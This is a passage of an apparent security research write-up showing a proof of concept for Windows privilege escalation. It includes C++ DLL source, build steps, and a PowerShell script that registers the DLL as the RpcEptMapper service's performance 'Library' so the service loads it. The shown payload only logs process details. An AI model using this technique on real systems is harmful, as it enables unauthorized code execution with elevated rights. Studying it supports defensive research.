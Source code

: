 ```
            dwProcessId,
            dwParentProcessId,
            wszUsername,
            pwszCommandLine,
            pwszCallingFrom
        );

        LogToFile(L"C:\\\LOGS\\\RpcEptMapperPoc.log", pwszBuffer);

        free(pwszBuffer);
    }
}

void LogToFile(LPCWSTR pwszFilename, LPWSTR pwszData)
{
    HANDLE hFile;
    DWORD dwBytesWritten;
    
    hFile= CreateFile(pwszFilename, FILE\_APPEND\_DATA, 0, NULL, OPEN\_ALWAYS, FILE\_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID\_HANDLE\_VALUE)
    {
        WriteFile(hFile, pwszData, (DWORD)wcslen(pwszData) * sizeof(WCHAR), &dwBytesWritten, NULL);
        CloseHandle(hFile);
    }
}

extern "C" BOOL WINAPI DllMain(HINSTANCE const instance, DWORD const reason, LPVOID const reserved)
{
    switch (reason)
    {
    case DLL\_PROCESS\_ATTACH:
        Log(L"DllMain");
        break;
    case DLL\_THREAD\_ATTACH:
        break;
    case DLL\_THREAD\_DETACH:
        break;
    case DLL\_PROCESS\_DETACH:
        break;
    }
    return TRUE;
}
```
In Visual Studio, create a new “_C++ Console App_” project. 
Select **_Release/x64_** and “**_Build the solution_**”. This will produce our DLL file: `.\DllRpcEndpointMapperPoc\x64\Release\DllRpcEndpointMapperPoc.dll`.

Test the DLL:
```
rundll32 DllRpcEndpointMapperPoc.dll,OpenPerfData
```
Use this script to create the appropriate key and values, wait for user input and terminate by cleaning everything up:
```
$ServiceKey = "SYSTEM\CurrentControlSet\Services\RpcEptMapper\Performance"

Write-Host "[*] Create 'Performance' subkey"
[void] [Microsoft.Win32.Registry]::LocalMachine.CreateSubKey($ServiceKey)
Write-Host "[*] Create 'Library' value"
New-ItemProperty -Path "HKLM:$($ServiceKey)" -Name "Library" -Value "$($pwd)\DllRpcEndpointMapperPoc.dll" -PropertyType "String" -Force | Out-Null
Write-Host "[*] Create 'Open' value"
```